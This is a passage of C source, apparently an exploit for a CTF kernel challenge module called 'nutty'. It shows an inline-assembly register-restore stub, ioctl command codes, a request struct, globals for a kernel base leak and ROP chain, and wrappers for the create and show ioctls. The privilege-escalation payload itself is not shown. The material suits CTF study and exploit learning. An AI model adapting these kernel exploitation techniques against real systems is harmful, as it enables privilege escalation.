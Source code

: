 ```exploit-only-work-in-local.c
    "add rsp, 0x20\n"
    "pop rbx\n"
    "pop r12\n"
    "pop r13\n"
    "pop r14\n"
    "pop r15\n"
    "pop rbp\n"
    "ret\n"
  );
}
// (END utils)

/** nutty **/
// commands
#define NUT_CREATE 0x13371
#define NUT_DELETE 0x13372
#define NUT_SHOW 0x13373
#define NUT_APPEND 0x13374

// type
struct req {
    int idx;
    int size;
    char* contents;
    int content_length;
    char* show_buffer;
};

// globals
uint count = 0;
void *faultmp = 0;
int nutfd;
ulong total_try = 0;
char buf[0x400];
ulong kernbase;
uint second_size = 0x2e0;
ulong prover = 0;
ulong *chain = 0;

// wrappers
int _create(int fd, uint size, uint csize, char *data){
  //printf("[+] create: %lx, %lx, %p\n", size, csize, data);
  assert(fd > 0);
  assert(0<=size && size<0x400);
  assert(csize > 0);
  assert(count < 10);
  struct req myreq = {
    .size = size,
    .content_length = csize,
    .contents = data
  };
  return ioctl(fd, NUT_CREATE, &myreq);
}

int _show(int fd, uint idx, char *buf){
  //printf("[+] show: %lx, %p\n", idx, buf);
  assert(fd > 0);
  struct req myreq ={
    .idx = idx,
    .show_buffer = buf
  };
  return ioctl(fd, NUT_SHOW, &myreq);
}
```